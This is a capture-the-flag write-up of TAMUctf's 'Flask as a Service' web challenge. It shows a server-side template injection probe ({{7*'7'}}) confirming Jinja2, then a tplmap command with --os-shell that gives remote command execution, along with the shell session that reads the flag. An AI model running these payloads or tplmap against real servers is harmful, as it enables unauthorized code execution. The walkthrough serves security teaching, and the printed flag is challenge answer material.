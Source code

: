 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

```http
POST /science HTTP/1.1 <br />  
Host: web3.tamuctf.com <br />  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 <br />  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 <br />  
Accept-Language: en-US,en;q=0.5 <br />  
Accept-Encoding: gzip, deflate <br />  
Referer: http://web3.tamuctf.com/ <br />  
Content-Type: application/x-www-form-urlencoded <br />  
Content-Length: 15 <br />  
Connection: close <br />  
Upgrade-Insecure-Requests: 1 <br />  

chem1=a&chem2=b <br />  


HTTP/1.1 200 OK <br />  
Server: nginx/1.15.8 <br />  
Date: Mon, 04 Mar 2019 13:33:53 GMT <br />  
Content-Type: text/html; charset=utf-8 <br />  
Content-Length: 272 <br />  
Connection: close <br />  

\<html>
        \<div style="text-align:center"> <br />  
        \<h3>The result of combining a and b is:\</h3>\</br> <br />  
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div> <br />  
        \</html>
```

Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}} <br />  
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is: <br />  
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell <br />  
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5 <br />  
        
  Automatic Server-Side Template Injection Detection and Exploitation Tool
    

[+] Testing if POST parameter 'chem1' is injectable <br />  

[+] Jinja2 plugin is testing rendering with tag '{{*}}' <br />  

[+] Jinja2 plugin has confirmed injection with tag '{{*}}' <br />  

[+] Tplmap identified the following injection point: <br />  


  POST parameter: chem1 <br />  
  
  Engine: Jinja2 <br />  
  
  Injection: {{*}} <br />  
  
  Context: text <br />  
  
  OS: posix-linux2 <br />  
  
  Technique: render <br />  
  
  Capabilities: <br />  

   Shell command execution: ok <br />  
   
   Bind and reverse shell: ok <br />  
   
   File write: ok <br />  
   
   File read: ok <br />  
   
   Code evaluation: ok, python code <br />  

[+] Run commands on the operating system. <br />  

posix-linux2 $ ls <br />  

config.py <br />  

entry.sh <br />  

flag.txt <br />  

requirements.txt <br />  

serve.py <br />  

tamuctf <br />  

posix-linux2 $ cat flag.txt <br />  

gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} <br />  

</code>
